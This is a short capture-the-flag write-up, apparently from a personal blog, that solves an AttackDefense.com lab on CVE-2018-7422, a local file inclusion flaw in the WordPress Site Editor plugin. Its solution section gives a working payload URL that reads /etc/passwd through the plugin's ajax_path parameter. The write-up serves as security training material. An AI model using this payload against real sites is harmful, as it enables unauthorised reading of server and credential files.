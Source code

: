 ```yaml
---
layout: post
title: AttackDefense.com [LFI] - CVE-2018-7422 Exploit
date: 2018-11-11 18:57 -0300
categories: [AttackDefense.com, ctf, writeups, LFI]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be attacked remotely. Local File Inclusion vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find a local file inclusion attack to access sensitive files from the server.

WordPress is a free and open source full-featured CMS for hosting blogs and web portals. It is based on PHP and MySQL. It is one of the most popular CMS.

WordPress Site Editor Plugin (1.1.1) is vulnerable to Local File Inclusion documented in CVE-2018-7422.

Objective: Your task is to find and exploit this vulnerability.

Level difficulty: Easy

Category: Webapps CVEs > Local File Inclusion

### Solution

The lab started with a real copy of a default WordPress installation with one additional plugin which is vulnerable to Local File Inclusion.

![Image of AttackDefense 2018](/uploads/adlfi1/image2.png)

After searching on the internet for ```CVE-2018-7422``` exploits I have discovered the following resource:

- [https://www.exploit-db.com/exploits/44340/](https://www.exploit-db.com/exploits/44340/)

![Image of AttackDefense 2018](/uploads/adlfi1/image4.png)

In order to retrieve the ```/etc/passwd``` file contents, I used the following payload:

- [http://mvwv0w4bnljuakkri3kmb3u32.public2.attackdefenselabs.com/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd](http://mvwv0w4bnljuakkri3kmb3u32.public2.attackdefenselabs.com/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd)

![Image of AttackDefense 2018](/uploads/adlfi1/image3.png)

![Image of AttackDefense 2018](/uploads/adlfi1/image1.png)

